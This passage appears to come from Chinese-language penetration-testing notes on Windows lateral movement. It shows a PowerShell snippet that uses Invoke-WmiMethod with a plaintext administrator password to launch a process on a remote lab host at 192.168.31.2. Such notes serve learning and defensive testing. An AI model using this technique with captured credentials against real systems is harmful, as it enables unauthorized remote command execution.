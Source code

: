     ![image-20240623111737613](Kerberos/image-20240623111737613.png)

#### 4.2.8 Invoke-WMIMethod - 明文

1. Invoke-WMIMethod 是 Powershell 自带的一个模块，可以用于连接远程计算机和执行命令。

2. 执行命令：
    ```powershell
    $User = "administrator"
    $Password = ConvertTo-SecureString "CJYcjy320723" -AsPlainText -Force
    $Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User, $Password
    # 执行命令，但是没有回显
    Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "calc.exe" -ComputerName "192.168.31.2" -Credential $Cred
    ```

    ![image-20240623123537144](Kerberos/image-20240623123537144.png)
